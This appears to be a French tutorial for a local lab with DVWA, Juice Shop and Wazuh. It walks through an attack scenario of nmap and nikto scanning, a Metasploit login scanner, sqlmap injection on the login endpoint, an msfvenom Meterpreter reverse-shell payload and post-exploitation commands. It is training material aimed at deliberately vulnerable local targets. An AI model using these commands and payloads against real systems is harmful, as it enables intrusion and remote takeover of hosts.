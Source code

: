 ```bash
docker-compose up -d
```

Accès :

* DVWA : [http://localhost:8080](http://localhost:8080)
* JuiceShop : [http://localhost:3000](http://localhost:3000)
* Kibana/Wazuh : [http://localhost:5601](http://localhost:5601)

---

## 4. Étapes d’un scénario complet d’attaque

### 1️⃣ Phase de reconnaissance

```bash
nmap -sV -p 80,3000 localhost
```

### 2️⃣ Analyse web (Juice Shop)

```bash
nikto -h http://localhost:3000
```

Résultat attendu : XSS, injections, headers faibles.

### 3️⃣ Exploitation avec Metasploit

```bash
msfconsole
search juice
use auxiliary/scanner/http/juiceshop_login
set RHOSTS 172.20.0.3  # IP du conteneur JuiceShop
run
```

### 4️⃣ Injection manuelle (ou SQLMap)

```bash
sqlmap -u "http://localhost:3000/rest/user/login" --data="email=test@a.com&password=abc" --batch
```

### 5️⃣ Reverse shell (ex. via upload malveillant)

* Générer payload :

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=172.20.0.1 LPORT=4444 -f elf > shell.elf
```

* Héberger et exécuter dans JuiceShop

### 6️⃣ Prise de contrôle + escalade

```bash
getuid
sysinfo
run post/linux/gather/enum_configs
```

---